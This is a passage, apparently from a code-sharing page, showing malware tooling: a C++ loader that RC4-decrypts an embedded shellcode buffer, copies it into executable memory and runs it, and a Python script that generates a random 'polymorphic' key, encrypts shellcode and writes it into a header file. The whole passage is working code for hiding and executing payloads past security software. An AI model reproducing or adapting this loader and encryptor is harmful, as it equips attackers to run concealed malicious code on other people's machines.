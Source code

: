 ```cpp
    if (execMem == NULL) {
        std::cerr << "Failed to allocate memory for execution (code: " << GetLastError() << ")" << std::endl;
        return;
    }

    memcpy(execMem, buffer, size);

    // Cast to function and execute
    auto shellcodeFunc = (void(*)())execMem;
    shellcodeFunc();
}

int main(int argc, char* argv[]) {
    unsigned char encryptedShellcode[] = { /* Encrypted shellcode bytes go here */ };
    char key[] = "your_polymorphic_key"; // Polymorphic key

    size_t shellcodeSize = sizeof(encryptedShellcode);
    rc4(encryptedShellcode, shellcodeSize, key, strlen(key));

    executeShellcode(encryptedShellcode, shellcodeSize);

    return 0;
}
```

### **Python Script for Polymorphic Shellcode Generation**

This script generates RC4-encrypted shellcode and a randomized key. The key and encrypted shellcode are then written into a C++ header file (`buff.h`).

```python
import random
import string

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = []

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    for char in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(char ^ S[(S[i] + S[j]) % 256])

    return bytes(out)

def generate_random_key(length=16):
    return ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(length))

def main():
    shellcode = b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"  # Example shellcode
    key = generate_random_key()

    encrypted_shellcode = rc4(key.encode(), shellcode)

    with open("buff.h", "w") as f:
```